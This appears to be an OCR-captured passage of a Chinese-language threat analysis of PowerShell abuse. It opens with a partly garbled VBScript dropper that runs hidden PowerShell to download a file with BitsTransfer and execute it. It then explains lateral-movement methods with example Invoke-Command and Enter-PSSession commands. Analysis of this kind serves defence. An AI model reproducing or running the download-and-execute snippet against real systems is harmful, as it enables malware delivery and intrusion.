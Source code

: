         Set shell=createobject(“Shell.Application”) 
 
    shell.ShellExecute “powershell.exe”, “-nop -w hidden -c if(IntPtr]::Size -eq 4){b=’powershell. exe’}else{$b=$env:windir+’\\\\syswow64\\\\ 
WindowsPowerShell\\\\v1.0\\\\powershell.exe’}; 
 
$s=New-Object System.Diagnostics.ProcessStartInfo;$s. 
FileName=$b;$s.Arguments=’-nop -w hidden -c Import- Module BitsTransfer;Start-BitsTransfer “ &nburl&” c:\\”&nbExe&”;Invoke-Item c:\\”&nbExe&”;’;$s. 
UseShellExecute=$false;$p=[System.Diagnostics. 
Process]::Start($s); “,””,”open”,0 
 
在多数情况下，exploit改变为powershell在目前没有真正的好处。因此在目前他们不太可能采取 powershell。然后如果一个网站有一个命令注入路东，攻击者可以利用该漏洞在服务器上执行 powershell 命令。 
 
### LATERAL MOVEMENT（横向渗透） 
 
有多个方法可以用来在远程计算机上运行 powershell 命令。这些技术准许攻击者从一个受威胁的计算机在整个企业环境中传播。攻击者经常跨网络移动，以找到有价值的系统。比如邮件或者数据库服务器,取决于他们的最终目标。他们可能会在其他系统上使用来自初始受损计算机的凭据，知道他们获得更高特权的账户控制权。Powershell命令在远程计算机上运行，并不总是作为恶意行为。系统管理员也会用它们来管理服务器。
下面来讨论在野外遇到的最长用的横向移动方法 

```
Invoke-Command 
Enter-PSSession 
WMI/wmic/Invoke-WMImethod 
Profile injection 
Task Sheduler 
Common tools e.g. PsExec 
Invoke-Command 
```

Powershell 脚本可以在 Invoke-Command 命令帮助下在远程计算机上运行，例如: 

```c
Invoke-Command –ComputerName $RemoteComputer –ScriptBlock {Start-Process 
‘C:\mycalc.exe’} –credential (Get-Credential) 
```
 
用户可以同时向多台计算机提供参数并并行在多台计算机上执行命令。新线程在签名的
WsmProvHost.exe 父进程下运行。一旦子进程结束，WsmProvHost 进程也将结束。 
 
#### Enter-PSSession 

另外一个方法是用 PSSession 命令进入远程 powershell 会话交互模式。用户可以通过会话远程执行命令，他们可以用 Enter-PSSession 来进入一个交互 shell 或者 New-PSSession 来创建一个新的背景会话。 

```
Enter-PSSession –ComputerName 192.168.1.2 –Credential $credentials 
```

运行一个远程 powershell 会话取决于 Windows Remote Mangement（WinRM）服务。该功能必须时通过 Enable-PSRemoting –Force 或组策略手动开启。可用的命令可以通过受约束的运行空间进行限制。 
 
#### WMI 

WMI 可以用来在远程计算机上运行应用。这不仅限于在 powershell 脚本，而且该应用程序存在于大多数windows计算机上，这是很容易利用这个的原因。一种命令请求看起来像下面这样: 
